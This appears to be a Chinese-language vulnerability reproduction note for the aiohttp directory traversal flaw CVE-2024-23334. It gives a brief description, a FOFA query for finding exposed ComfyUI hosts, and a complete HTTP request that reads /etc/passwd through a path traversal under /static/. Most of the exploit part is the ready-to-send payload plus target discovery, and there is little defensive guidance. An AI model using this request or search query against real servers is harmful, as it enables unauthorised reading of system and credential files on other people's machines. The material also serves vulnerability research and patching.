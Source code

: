# python aiohttp插件存在目录遍历漏洞(CVE-2024-23334)

# 一、漏洞简介
aiohttp是一个用于异步网络编程的Python库，支持客户端和服务器端的网络通信。它利用Python的asyncio库来实现异步IO操作，这意味着它可以处理大量并发网络连接，而不会导致线程阻塞或性能下降。aiohttp常用于需要高性能网络通信的应用程序，如高频交易平台、大规模并发API服务等。aiohttp 存在目录遍历漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 二、影响版本
+ aiohttp

# 三、资产测绘
+ fofa`title=="ComfyUI""`
+ 特征

![1715938367206-7b415001-96a1-4753-b2d7-70e7f087045c.png](./img/SDWMxOF8-pVDuhg2/1715938367206-7b415001-96a1-4753-b2d7-70e7f087045c-685432.png)![1715938382417-9902ed78-678c-48c6-afd7-7e97a699c1e7.png](./img/SDWMxOF8-pVDuhg2/1715938382417-9902ed78-678c-48c6-afd7-7e97a699c1e7-373275.png)

# 四、漏洞复现
```plain
GET /static/../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

```

![1715938400651-ce4a7892-ff07-45c6-a92a-57220795bfa2.png](./img/SDWMxOF8-pVDuhg2/1715938400651-ce4a7892-ff07-45c6-a92a-57220795bfa2-977848.png)



> 更新: 2024-09-05 23:27:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zaatbgfawgop0f6e>